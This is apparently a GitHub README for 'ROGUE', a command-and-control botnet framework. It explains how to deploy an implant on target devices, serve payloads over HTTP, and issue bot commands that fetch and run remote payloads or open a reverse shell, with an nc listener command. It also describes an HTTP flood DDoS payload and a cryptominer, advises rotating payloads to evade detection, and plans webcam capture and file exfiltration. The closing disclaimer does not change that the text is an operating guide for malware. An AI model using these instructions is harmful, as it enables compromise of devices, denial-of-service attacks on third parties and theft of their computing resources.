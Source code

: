 # r0gue

ROGUE is a private, manually-deployed peer-to-peer and command-and-control (C2) botnet framework built for secure multi-device orchestration. It supports encrypted communication using AES, with optional peer-to-peer fallback if the primary C2 is unreachable. 
ROGUE supports implants on Linux laptops, Raspberry Pi, Termux (Android), iOS environments.

## Installation

ROGUE is a private repository. To clone it via SSH, first ensure your SSH key is registered with your GitHub account. Then from your Kali system, run:

```bash
git clone git@github.com:your-username/ROGUE.git
cd ROGUE
```

## install dependencies manually:

```bash
sudo apt update
sudo apt install python3 python3-pip
pip3 install pycryptodome
```

## File Structure

- `rogue_c2.py` – Encrypted command-and-control server
- `rogue_implant.py` – Bot implant for manual deployment
- `payloads/` – Folder containing optional executable payload modules (e.g. `ddos.py`, `mine.py`)

## Usage

To start the command-and-control server on Kali:

```bash
python3 rogue_c2.py
```

To convert a device into a bot, copy `rogue_implant.py` to the target device, edit the `C2_HOST` variable in the script to point to your C2’s IP address, and run:

```bash
python3 rogue_implant.py
```

The bot will persistently attempt to reconnect. If the C2 becomes unreachable, it will use peer-to-peer logic to scan for other known ROGUE bots on the network.

To serve payloads to bots, navigate into the `payloads/` folder on the C2 system and run:

```bash
python3 -m http.server 8000
```

## Sending Commands

Once bots are connected to the C2, you may issue commands using the terminal interface. Example commands include:

```text
load_payload mine.py        # Instruct bot to fetch payload from your hosted server
run_payload mine.py         # Execute fetched payload
reverse_shell               # Open reverse shell (C2 must be listening on port 9001)
```

To listen for a reverse shell from a bot:

```bash
nc -lvnp 9001
```

## Maintaining Bots

Rogue bots must have stable access to Python3 and network connectivity. You are responsible for copying the implant to each device. To maintain operational control:
- Keep your C2 running and listening for new connections
- Keep the payload server online (e.g. using Python's built-in HTTP server)
- Periodically rotate or update payload scripts to improve functionality or evade detection

## Payload Examples

- `mine.py`: Simulates lightweight CPU-based cryptocurrency mining by continuously hashing
- `ddos.py`: Launches a multi-threaded HTTP flood attack on a given IP/port 
- Future payloads may include webcam capture, file exfiltration, etc...

## Disclaimer

Do not deploy ROGUE on any device, network, or system that you do not own or have explicit permission to operate on. Misuse of this tool may violate local, state, or federal laws. The developers assume no liability and provide this software without warranty or support.


